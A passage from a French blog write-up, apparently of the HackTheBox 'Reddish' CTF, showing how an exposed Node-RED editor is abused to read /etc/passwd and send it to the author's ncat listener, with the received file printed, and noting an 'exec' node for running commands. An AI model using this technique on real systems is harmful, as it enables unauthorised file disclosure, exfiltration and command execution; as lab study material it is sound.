 En gros sur la colonne de gauche vous avez une liste d'actions, événements, conditions, etc (qui sont baptisées *nodes*) que vous pouvez placer dans le graphe puis les relier entre eux pour définir un automate (oui on est en 2019 et j'ai dit automate :D ).  

C'est plutôt fun à utiliser et ça peut être une bonne introduction à ceux qui souhaitent s'initier à la programmation.  

Quoiqu'il en soit j'ai commencé à jouer avec cette interface qui m'était totalement inconnue et je suis par exemple parvenus à lire des fichiers présents sur le disque :  

![HackTheBox Reddish CTF Node-RED file disclosure](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/reddish/reddish_web.png)

Ici l'action consiste à lire un fichier. Pour cela on prend l'icône marron *file* dans la section *storage*, on la place dans le graphe puis on double clique pour entrer le path du fichier (*/etc/passwd* dans mon exemple).  

On le relie alors à une sortie de type *tcp* où l'on rentre l'hôte et le port, on clique sur le bouton rouge *Deploy* et on reçoit ce qu'on attendait :  

```plain
$ ncat -l -p 7777 -v
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 10.10.10.94.
Ncat: Connection from 10.10.10.94:52718.
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
node:x:1000:1000::/home/node:/bin/bash
```

C'est un bon début mais ça ne nous amène malheureusement pas bien loin. Heureusement il y a une action *exec* qui sans trop de surprise permet d'exécuter des commandes du système (la colonne à droite donne les informations sur la *node* sélectionnée).  
